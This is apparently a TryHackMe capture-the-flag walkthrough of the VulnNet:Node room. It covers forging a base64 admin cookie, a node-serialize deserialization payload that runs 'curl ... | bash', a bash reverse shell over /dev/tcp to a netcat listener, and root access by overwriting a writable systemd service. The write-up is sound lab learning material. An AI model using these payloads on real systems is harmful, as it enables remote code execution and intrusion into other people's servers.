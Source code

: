 # [VulnNet:Node TryHackMe Writeup/Walkthrough][1]

VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Open Ports](images/open_ports.jpg)

Looks like we have one port open: `8080`.

![Searchspolit Search](images/searchsploit.jpg)
> Found RCE, maybe off some use later.

I did `gobuster` scan but didn't find much really. I checked the website then.

![Website](images/website.jpg)
> Nothing much on this blogs but found a *LOGIN NOW* page.

Nothing much to work with. I then checked the *cookies* under `Inspect Element > Storage`. I copied and paste the value onto the [CyberChef][3] website.

Use `URL Decode` and `From Base64` to get the text.

![Decoded Text](images/cookie_decode.jpg)

I change the text to: `{"username": "Admin", "isAdmin":true, "encoding":"utf-8"}` and encoded the text with `ToBase64` and then `URL Encode`. Just as how we decrypted it.

![Encoded Text](images/cookie_encode.jpg)

Copy this text and paste it in the value field and refresh the webpage.  For a flash second I see *something Admin*. Let's fireup  **BurpSuite**.

Intercept the request and check in repeater.

![Admin Login Page](images/admin_login.jpg)
> Got Admin access.

Delete part of cookie and check their error handling system. Fascinatingly there are direct error messages.

![Error Message](images/cookie_error.jpg)

Searched cookie exploit online and will found an interesting cookie exploit on [exploit-db][4].

> Reading into the exploit

I then create a file called `shell.sh` with the content -> `bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1` and started a local server using python -> `python3 -m http.server`

![Server](images/start_server.jpg)


Also, start a `netcat` listener in other terminal -> `nc -lvnp 4444`.

Now lets configure the cookie and send it to the server.

I configure it according the need of the server -> `{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl <YOUR_IP>:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}`

![Encode Shell](images/encode_shell.jpg)
> Encode the cookie

Paste this after `session=` under cookie and send the request in BurpSuite.

Go back to your terminal where you had `nc` listener. You will see a reverse connection.

![Got Shell](images/got_shell.jpg)

I looked around and checked my access for this shell.

![Access](images/access.jpg)

There was nothing much. I then checked what programs I can run using `sudo -l`.

![Sudo L](images/sudo_l.jpg)

We can run `npm` as `serv-manage`. Let's search this on [GTFOBins][5]. I found the exploit to get the sudo access.

![Got User](images/got_user.jpg)
> BAAM! We got the access.

Let's stabilize the shell first. CMD -> `python -c 'import pty;pty.spawn("/bin/bash")'`

![Stable Shell](images/shell_stable.jpg)

I got the user flag.

#### Privilege Escalation

For the `root`, let's check what programs I can run.

![SUDO L](images/sudo_l_user.jpg)
> Seems like I can run three commands as root.

Let's find this `vulnnet-auto.timer` file. For this we can use `locate` command.

![Locate File](images/file_locate.jpg)
> We have write access to this file as we are in `serv-manage` group.

Let's check the content of this file.

![File Content](images/content_file.jpg)
> Seems like this file is running other file called `vulnnet-job.service`

[Viewing the file]

This file is running a bash script. We can replace the bash script with the pervious curl command and get the root access. (If you have shutdown the python server, start it again)

I was not able to edit it properly. So I copied the content and created a file with the same name locally.

Also change the port in `shell.sh` to `4445`

![Content Exploit](images/content_exploit.jpg)

I then sent this file to the server using `curl` command.

![Get Files](images/get_file.jpg)
> Also dont forgot to start a listener again in a different terminal -> `nc -lvnp 4445`

Wait for a bit and you will get the connection. If not, run the command to which we had access -> `sudo /bin/systemctl stop vulnnet-auto.timer` and then `sudo /bin/systemctl start vulnnet-auto.timer`

![Got Shell](images/got_rev_shell.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/vulnnetnode
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://gchq.github.io/CyberChef/
[4]: https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf
[5]: https://gtfobins.github.io/gtfobins/npm/
